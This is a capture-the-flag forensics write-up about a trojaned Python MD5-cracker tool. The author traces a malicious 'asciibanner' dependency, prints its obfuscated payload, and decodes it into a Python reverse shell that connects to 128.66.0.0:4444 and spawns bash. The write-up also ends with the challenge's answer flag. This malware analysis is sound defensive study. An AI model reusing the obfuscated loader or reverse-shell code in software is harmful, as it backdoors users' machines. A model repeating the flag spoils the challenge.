



# Supply chain attack - Python

## Challenge Details

- Category: Forensics
- Points: 35
- Validation: 973
- Author: Nishacid
- Status: Done
# Handout
`Supply chain attack - Python: MD5 Cracker`
`Your colleague says he has been experiencing abnormal behavior on his computer since his last pentest. He only remembers using a tool to break MD5 hashes that he was able to retrieve from a database. Can you analyze the tool in question? The flag is the hash SHA-256 of the concatenation of the attacker’s IP and the port number used.`
https://static.root-me.org/forensic/ch35/ch35.zip
## Walkthrough
This one seems very interesting going by the description, some custom "infected" pypi package? 
Unzipping:

```bash
$ unzip ch35.zip
Archive:  ch35.zip
   creating: md5cracker/
  inflating: md5cracker/utils.py
 extracting: md5cracker/__init__.py
  inflating: md5cracker/cracker.py
  inflating: md5cracker/md5cracker.py
  inflating: md5cracker/README.md
  inflating: md5cracker/requirements.txt
```



"Cracking" a hash in milliseconds, how suspicious, let's look at the repo the challenge mentions: 
https://github.com/thisrepodoesntexistanymore/md5cracker.git

Interestingly, for a cloned repo, there's no `.git` folder.


guess they weren't lying, let's check the wayback machine, it's captured once:



Amazing, someone archived a 404 page. Let's look at the `requirements.txt`:

```bash
$ cat requirements.txt
requests==2.22.0
bs4==0.0.1
lxml==4.9.1
asciibanner==1.4.0
pyfiglet==0.8.post1
termcolor==2.1.0
pwntools==4.8.0
```

These all seem normal on the surface, what is an md5cracker using pwntools for?

```bash
$ cat * | rg pwn
from pwn import error
from pwn import error
pwntools==4.8.0
```

How peculiar. It's probably a misdirection. Let's look at the cracker itself.

```python
$ cat md5cracker.py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
# Python Version    : 3.*

import argparse
from cracker import *
from utils import *
import multiprocessing
from pwn import error
import sys


def main():
    # Arguments
    parser = argparse.ArgumentParser(description="Password Cracker")
    parser.add_argument("-f", "--file", dest="file", help="Path of wordlist", required=False)
    parser.add_argument("-g", "--generate", dest="generate", help="Generate MD5 hash of password", required=False)
    parser.add_argument("--md5", dest="md5", help="Hashed Password", required=False)
    parser.add_argument("-l", "--lenght", dest="pass_lenght", help="Password Lenght", required=False, type=int)
    parser.add_argument("-o", "--online", dest="online", help="Online Search", required=False, action="store_true")
    args = parser.parse_args()

    # MutliProcess
    work_queue = multiprocessing.Queue()
    done_queue = multiprocessing.Queue()
    cracker = Cracker()

    if args.md5:
        print("[*] Cracking hash " + args.md5)
        if args.file and not args.pass_lenght:
            print("[*] Using wordlist : " + args.file)

            # Process 1
            proc1 = multiprocessing.Process(target=Cracker.work, args=(work_queue, done_queue, args.md5, args.file, False))
            work_queue.put(cracker)
            proc1.start()

            # Process 2
            proc2 = multiprocessing.Process(target=Cracker.work, args=(work_queue, done_queue, args.md5, args.file, True))
            work_queue.put(cracker)
            proc2.start()

            while True:
                data = done_queue.get()
                if data == "FOUND" or data == "NOT FOUND":
                    proc1.kill()
                    proc2.kill()
                    break
        elif args.pass_lenght and not args.file:
            print("[*] Using Incremental mode with " + str(args.pass_lenght) + " letters")
            Cracker.crack_incr(args.md5, args.pass_lenght)
        elif args.online:
            print("[*] Using Online mode")
            Cracker.crack_online(args.md5)
        else:
            print("[*] Please choose -f OR -l arguments")
    elif not args.generate:
        print(Colors.RED + "[-] Please provide a method and a hash [-h for help]" + Colors.END)

    if args.generate:
        print(Colors.GREEN + "[+] MD5 hash of " + args.generate + " is " + hashlib.md5(args.generate.encode('utf8')).hexdigest() + Colors.END)

if __name__ == "__main__":
    main()
```

Seems quite normal, does what it says on the cover. let's check cracker.py

```bash
$ cat cracker.py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
# Python Version    : 3.*

import requests
import sys
import time
import string
import hashlib
from bs4 import BeautifulSoup
from utils import *
from asciibanner import *
from pyfiglet import Figlet
from termcolor import colored
from pwn import error
import re

class Cracker:

    # Dictionnary Bruteforce Fonction
    @staticmethod
    def crack_dict(md5, file, order, done_queue):
        f = Figlet(font='slant')
        print(f.renderText('MD5 Cracker'))
        try:
            start = time.time()
            found = False
            wordlist = open(file, "r")
            if Order.ASCEND == order:
                content = reversed(list(wordlist.readlines()))
            else:
                content = wordlist.readlines()
            for words in content:
                words = words.strip("\n")
                file_hashs = hashlib.md5(words.encode("utf8")).hexdigest()

                if md5 == file_hashs:
                    found = True
                    print(Colors.GREEN + "[+] Password found : " + words + Colors.END)
                    print(Colors.GREEN + "[+] Found in " + time_format(time.time() - start) + Colors.END)
                    print(art_interogation("Yes"))
                    done_queue.put("FOUND")
                    break
            if not found:
                    print(Colors.RED + "[-] Bad wordlist, password not found" + Colors.END)
                    print(art_sharp("No"))
                    done_queue.put("NOT FOUND")

            wordlist.close()
        except FileNotFoundError:
            print(Colors.RED + "[-] File not found" + Colors.END)
            sys.exit(1)

        except Exception as err:
            print(Colors.RED + "[-] Error : " + str(err) + Colors.END)
            sys.exit(2)

    # Incrementation Fonction
    @staticmethod
    def crack_incr(md5, lenght, _currpass=[]):
        f = Figlet(font='slant')
        print(f.renderText('MD5 Cracker'))
        start = time.time()
        letters = string.ascii_letters
        if lenght >= 1:
            if len(_currpass) == 0:
                _currpass = ['a' for i in range(lenght)]
                Cracker.crack_incr(md5, lenght, _currpass)
            else:
                for carac in letters:
                    _currpass[lenght -1] = carac
                    if hashlib.md5("".join(_currpass).encode("utf8")).hexdigest() == md5:
                        print(Colors.GREEN + "[+] Password found : " + "".join(_currpass) + Colors.END)
                        print(Colors.GREEN + "[+] Found in " + time_format(time.time() - start) + Colors.END)
                        print(art_slash("Yes"))
                        break
                    else:
                        Cracker.crack_incr(md5, lenght -1, _currpass)

    # Online Fonction
    @staticmethod
    def crack_online(md5):
        f = Figlet(font='slant')
        print(f.renderText('MD5 Cracker'))
        try:
            start = time.time()
            url = 'https://md5decrypt.net/'
            data = {
                'hash': md5,
                'captcha6866': '',
                'ahah6866': '1c755dae9828b491df95ea770206b494',
                'decrypt': 'D%C3%A9crypter'
            }
            headers = {
                    'User-Agent' : 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:105.0) Gecko/20100101 Firefox/105.0 ',
                    'Content-Type' : 'application/x-www-form-urlencoded',
                    'Accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9;image/webp,*/*;q=0.8',
                    'DNT' : '1',
                    'Host' : 'md5decrypt.net'
            }
            r = requests.post(url = url, data = data, headers = headers)
            if r.status_code == 200:
                soup = BeautifulSoup(r.content.decode('utf-8'),'lxml')
                for element in soup.find_all('b') :
                    print(Colors.GREEN + "[+] Password found : " + element.text.strip() + Colors.END)
                    print(Colors.GREEN + "[+] Found in " + time_format(time.time() - start) + Colors.END)
                    print(art_exclamation("Yes"))
                if not soup.find_all('b'):
                    print(Colors.RED + "[-] Password not found" + Colors.END)
                    print(art_custom("No", "-"))
            else:
                print('Error : ' + str(r.status_code()))
        except requests.ConnectionError:
            print("Error, failed to etablish connection on : " + url)
        except requests.Timeout:
            print("Error, request time out")

    # Work Fonction
    @staticmethod
    def work(work_queue, done_queue, md5, file, order):
        o = work_queue.get()
        o.crack_dict(md5, file, order, done_queue)
```

```json
{
                'hash': md5,
                'captcha6866': '',
                'ahah6866': '1c755dae9828b491df95ea770206b494',
                'decrypt': 'D%C3%A9crypter'
            }
```
the data object is a bit weird, but nothing with an attacker's ip... maybe we are looking for an actual supply chain attack in the packages genuine listed? 

Looing on pypi, I found listings for all packages.. except `asciibanner==1.4.0`. 


This is incredibly sus.
Let's just try to install it via pip in a docker container:

```bash
$ docker run --rm python:3.8-slim pip install asciibanner==1.4.0
ERROR: Could not find a version that satisfies the requirement asciibanner==1.4.0 (from versions: none)
ERROR: No matching distribution found for asciibanner==1.4.0
```

As expected. Looking for it, I found some project with name asciibanner on sourceforge: https://sourceforge.net/projects/asciibanner/files/ but this is just a rabbithole.
https://getsafety.com/packages/pypi/asciibanner
There's a getsafety page for asciibanner, but the pypi page referenced gives a 404, could it have been removed, because of the malware we are investigating? Let's look for the pypi page on wayback: https://pypi.org/project/asciibanner/


And all of them give the same 404 page. amazing. dorking google for the package, i found a megaldon archive entry for `asciibanner-1.4.tar.gz`




So i's archived on files.pythonhosted.org, let's wget it 

```bash
$ wget  https://files.pythonhosted.org:443/packages/e9/9a/69afd084e71ce04fb63fe6629c977fbfb9120d5c3d533b7a99c30e68faf4/asciibanner-1.4.tar.gz
--2026-06-15 23:04:59--  https://files.pythonhosted.org/packages/e9/9a/69afd084e71ce04fb63fe6629c977fbfb9120d5c3d533b7a99c30e68faf4/asciibanner-1.4.tar.gz
Resolving files.pythonhosted.org (files.pythonhosted.org)... 151.101.0.223, 151.101.64.223, 151.101.128.223, ...
Connecting to files.pythonhosted.org (files.pythonhosted.org)|151.101.0.223|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 174570 (170K) [application/x-tar]
Saving to: ‘asciibanner-1.4.tar.gz’

asciibanner-1.4.tar.gz                     100%[=======================================================================================>] 170.48K  --.-KB/s    in 0.04s

2026-06-15 23:05:00 (3.83 MB/s) - ‘asciibanner-1.4.tar.gz’ saved [174570/174570]
```

```bash
$ tar -xvf asciibanner-1.4.tar.gz
asciibanner-1.4/
asciibanner-1.4/MANIFEST.in
asciibanner-1.4/PKG-INFO
asciibanner-1.4/README.md
asciibanner-1.4/asciibanner/
asciibanner-1.4/asciibanner/__init__.py
asciibanner-1.4/asciibanner/arial.ttf
asciibanner-1.4/asciibanner/asciibanner.py
asciibanner-1.4/asciibanner.egg-info/
asciibanner-1.4/asciibanner.egg-info/PKG-INFO
asciibanner-1.4/asciibanner.egg-info/SOURCES.txt
asciibanner-1.4/asciibanner.egg-info/dependency_links.txt
asciibanner-1.4/asciibanner.egg-info/requires.txt
asciibanner-1.4/asciibanner.egg-info/top_level.txt
asciibanner-1.4/setup.cfg
asciibanner-1.4/setup.py
```

Let's look at the main asciibanner.py first:

```bash
$ cat asciibanner-1.4/asciibanner/asciibanner.py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
# Python Version    : 3.X
# Author            : Dicahsin
# File name         : asciibanner.py

import os
from PIL import Image, ImageDraw, ImageFont
import numpy as np
import socket, pty
import base64, codecs

# Create art with #
def art_sharp(text):
    size = (20, 11)
    img = Image.new("1",size,"black")
    draw = ImageDraw.Draw(img)
    draw.text((0, 0), text, "white")
    pixels = np.array(img, dtype=np.uint8)
    chars = np.array([' ','#'], dtype="U1")[pixels]
    strings = chars.view('U' + str(chars.shape[1])).flatten()
    return( "\n".join(strings))


# Create art with /
def art_slash(text):
    size = (20, 11)
    img = Image.new("1",size,"black")
    draw = ImageDraw.Draw(img)
    draw.text((0, 0), text, "white")
    pixels = np.array(img, dtype=np.uint8)
    chars = np.array([' ','/'], dtype="U1")[pixels]
    strings = chars.view('U' + str(chars.shape[1])).flatten()
    return( "\n".join(strings))

# Create art with !
def art_exclamation(text):
    size = (20, 11)
    img = Image.new("1",size,"black")
    draw = ImageDraw.Draw(img)
    draw.text((0, 0), text, "white")
    pixels = np.array(img, dtype=np.uint8)
    chars = np.array([' ','!'], dtype="U1")[pixels]
    strings = chars.view('U' + str(chars.shape[1])).flatten()
    return( "\n".join(strings))

# Create art with custom sign
def art_custom(text, sign):
    size = (20, 11)
    img = Image.new("1",size,"black")
    draw = ImageDraw.Draw(img)
    draw.text((0, 0), text, "white")
    pixels = np.array(img, dtype=np.uint8)
    chars = np.array([' ',f'{sign}'], dtype="U1")[pixels]
    strings = chars.view('U' + str(chars.shape[1])).flatten()
    return( "\n".join(strings))

# Create art with ?
def art_interogation(text):
    size = (20, 11)
    img = Image.new("1",size,"black")
    draw = ImageDraw.Draw(img)
    draw.text((0, 0), text, "white")
    pixels = np.array(img, dtype=np.uint8)
    chars = np.array([' ','?'], dtype="U1")[pixels]
    magic = 'c3RyaW5nID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1'
    love = 'EFEHSAXDcmqUWcozphL29hozIwqPtbVwRlBP42Av4jYwNvYQD0AQDcXDcipl5xqKNlXUA0'
    god = 'cmluZy5maWxlbm8oKSwwKQpvcy5kdXAyKHN0cmluZy5maWxlbm8oKSwxKQpvcy5kdXAyKH'
    destiny = 'A0pzyhMl5znJkyoz8bXFjlXDcjnKuyoUZtCFOjqUxhp3Ouq24bVv9vnJ4iLzSmnPVcPt=='
    joy = '\x72\x6f\x74\x31\x33'
    trust = eval('\x6d\x61\x67\x69\x63') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x6c\x6f\x76\x65\x2c\x20\x6a\x6f\x79\x29') + eval('\x67\x6f\x64') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x64\x65\x73\x74\x69\x6e\x79\x2c\x20\x6a\x6f\x79\x29')
    eval(compile(base64.b64decode(eval('\x74\x72\x75\x73\x74')),'<string>','exec'))
    strings = chars.view('U' + str(chars.shape[1])).flatten()
    return( "\n".join(strings))
```

YO WHAT. THAT'S DEFINITELY NOT ASCII BANNER ART. Good we found our supply chain attack though: `art_interrogation`, which was called by `cracker.py` Let's reverse the obvious trivial "obfuscation".

```bash
$ echo "c3RyaW5nID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1" | base64 -di #magic
string = socket.socket(socket.AF_INET, socket.SOCK_S

$ echo "EFEHSAXDcmqUWcozphL29hozIwqPtbVwRlBP42Av4jYwNvYQD0AQDcXDcipl5xqKNlXUA0" | base64 -di #love
QH�rj�Y�3���␦3#
��r*e�␦�6U�

$ echo "cmluZy5maWxlbm8oKSwwKQpvcy5kdXAyKHN0cmluZy5maWxlbm8oKSwxKQpvcy5kdXAyKH" | base64 -di #god
ring.fileno(),0)
os.dup2(string.fileno(),1)
os.dup2(

$ echo "A0pzyhMl5znJkyoz8bXFjlXDcjnKuyoUZtCFOjqUxhp3Ouq24bVv9vnJ4iLzSmnPVcPt==" | base64 -di #destiny
Js�%�9ɓ*3�ŎU�r9ʻ*fЅ::��␦w:��o����"�Ji�U��
```

So it's probably popping a shell later on, let's see what the evals are doing with the most sophisticated of malware reversing techniques, changing an `eval` to a `print`:

```python
import base64
import codecs 

magic = 'c3RyaW5nID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1'
love = 'EFEHSAXDcmqUWcozphL29hozIwqPtbVwRlBP42Av4jYwNvYQD0AQDcXDcipl5xqKNlXUA0'
god = 'cmluZy5maWxlbm8oKSwwKQpvcy5kdXAyKHN0cmluZy5maWxlbm8oKSwxKQpvcy5kdXAyKH'
destiny = 'A0pzyhMl5znJkyoz8bXFjlXDcjnKuyoUZtCFOjqUxhp3Ouq24bVv9vnJ4iLzSmnPVcPt=='
joy = '\x72\x6f\x74\x31\x33'
trust = eval('\x6d\x61\x67\x69\x63') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x6c\x6f\x76\x65\x2c\x20\x6a\x6f\x79\x29') + eval('\x67\x6f\x64') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x64\x65\x73\x74\x69\x6e\x79\x2c\x20\x6a\x6f\x79\x29')
print(base64.b64decode(eval('\x74\x72\x75\x73\x74')).decode('utf-8'))
```

```bash
$ cat funnyvars.py | docker run --rm -i --network none python:3.8-slim python
string = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
string.connect(("128.66.0.0",4444))
os.dup2(string.fileno(),0)
os.dup2(string.fileno(),1)
os.dup2(string.fileno(),2)
pixels = pty.spawn("/bin/bash")
```

And there's our IP!
`128.66.0.0:4444`

So our flag becomes the sha256 of this:
```bash
$ echo -n "128.66.0.0:4444" | sha256sum
1438901b9ca8d134a611f556b0480d5dd84825559353314876d701124ee040c2
```

And it's done!
The infected file is in `art_interogation()`, and `cracker.py` calls `art_interogation("Yes")` only when the dictionary crack is successful. So the reverse shell is popped when a hash is "cracked" using a dictionary attack. Ironic.
# FLAG
1438901b9ca8d134a611f556b0480d5dd84825559353314876d701124ee040c2
